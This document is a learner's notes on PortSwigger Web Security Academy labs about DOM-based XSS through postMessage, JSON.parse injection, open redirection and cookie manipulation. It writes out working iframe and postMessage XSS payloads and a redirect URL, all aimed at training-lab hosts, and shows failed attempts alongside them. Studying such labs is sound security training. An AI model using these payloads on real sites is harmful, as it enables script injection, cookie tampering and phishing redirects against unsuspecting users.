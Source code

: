 
# DOM-based vulnerabilities (general)
https://portswigger.net/web-security/dom-based

material:

Controlling the web message source:
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source

what is window.postmessage():
https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage



# Controlling the web message source (3 labs)
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source

<!-- DOM XSS using web messages -->
https://0a85009c04059966c0d325d100d6002c.web-security-academy.net/

hint:
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">


1. look for messages listners / innerHTML object - find in response to home (GET / HTTP/1.1):
    <script>
        window.addEventListener('message', function(e) {
            document.getElementById('ads').innerHTML = e.data;
        })
    </script>

2. lets load the hinted code with labs url and img>tag based onerror event handler:
<iframe src="https://0a85009c04059966c0d325d100d6002c.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print(1)>','*')">

avoid apos char at: src='x' and onerror='print()'. they break the payload here



# DUDE!


<!-- Lab: DOM XSS using web messages and a JavaScript URL -->
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url

look for vulnarble JS functions by finding script>tag in responses:
find:
    <script>
        window.addEventListener('message', function(e) {
            var url = e.data;
            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                location.href = url;
            }
        }, false);
    </script>


so payload must start with 'http:' or 'https:' to be executed. lets try to pass arbitary url with hashed payload:

possible payloads:
<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net" onload="this.contentWindow.postMessage('javascript:print()<!--http:','*')">

<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">

learned: use javascript: pseudo protocol in urls
https://brutelogic.com.br/blog/alternative-javascript-pseudo-protocol/


<!-- failed payload:
http:foo.bar#<script>print()</script>
loaded to iframe:
<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net" onload="this.contentWindow.postMessage('<script>print()</script>//https:http:','*')">

http:foo.bar#<img src=1 onerror=print(1)>
urlencoded:
http%3afoo.bar%23<img+src%3d1+onerror%3dprint(1)>
uploaded to iframe:
<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net/" onload="this.contentWindow.postMessage('https://0aab0039049cb659c0c402b200f800de.web-security-academy.net/#<img+src%3d1+onerror%3dprint(1)>','*')">

or maybe just put payload before URL:
<img src=1 onerror=print(1)>;<!--https:>

uploaded into payload:
<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print(1)>;<!--https:>','*')">

 -->


# DUDE!



<!-- Lab: DOM XSS using web messages and JSON.parse -->
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse


look for vulnarble script> tags at proxie - find:
    <script>
        window.addEventListener('message', function(e) {
            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
            document.body.appendChild(iframe);
            try {
                d = JSON.parse(e.data);
            } catch(e) {
                return;
            }
            switch(d.type) {
                case "page-load":
                    ACMEplayer.element.scrollIntoView();
                    break;
                case "load-channel":
                    ACMEplayer.element.src = d.url;
                    break;
                case "player-height-changed":
                    ACMEplayer.element.style.width = d.width + "px";
                    ACMEplayer.element.style.height = d.height + "px";
                    break;
            }
        }, false);
    </script>

3 posiible actions: scroll, load and change style. lets try load as a possible vector.
jason:
{"type":"load-channel", "data":"javascript:print()//"}

<iframe src="https://0a2500af039e943bc0f65f0c0025000f.web-security-academy.net" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}","*")'>

what i learned:
d.url == field name is url (not "data" you dummy)
escape the " in the jason to avoid breaking the outer iframe shell

# DUDE!


# DOM-based open redirection (1 lab)
https://portswigger.net/web-security/dom-based/open-redirection

<!-- Lab: DOM-based open redirection -->
https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection


look for keyword url in response - find in post pages (GET /post?postId=1 HTTP/1.1):
    <div class="is-linkback">
        <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
    </div>

portswigger solution:
https://your-lab-id.web-security-academy.net/post?postId=4&url=https://your-exploit-server-id.web-security-academy.net/

payload:
https://0ad300bc03e07eacc1b32b24000900f0.web-security-academy.net/post?postId=1&url=https://exploit-0ab1006e03af7ee6c1892b8c011f001f.web-security-academy.net/exploit

(of course in the exploit page needs to be a badass maliciouse code)

# DOM-based cookie manipulation (1 lab)
https://portswigger.net/web-security/dom-based/cookie-manipulation


<!-- Lab: DOM-based cookie manipulation -->
https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation

hint:
document.cookie = 'cookieName='+location.hash.slice(1);

serach keyword cookie to find cookie related vulnarbilties - find in page (GET /product?productId=3 HTTP/1.1)
    <script>
        document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
    </script>

this script creates a link to our last seen product

<script>
    document.cookie = 'lastViewedProduct=' + location.hash.slice(1) + '; SameSite=None; Secure'
</script>



portswigger solution:
<iframe src="https://your-lab-id.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://your-lab-id.web-security-academy.net';window.x=1;">

i guess the onload works as follow:
check if window.x (arbitary var?) has valiue and if he does we redirect iframe to the second url value; after we load the window.x with value to make sure it resualts to true to fire the onload handler.

not sure why window.x only being loaded in the end
not sure why use the if clause and not redirect otherwise

but still - supercool


payload:
<iframe src="https://0a900063030848c7c03f08790046001e.web-security-academy.net/product?productId=3&'><script>print()</script>" onload="if(!window.x)this.src='https://0a900063030848c7c03f08790046001e.web-security-academy.net';window.x=1">


# DUDE!
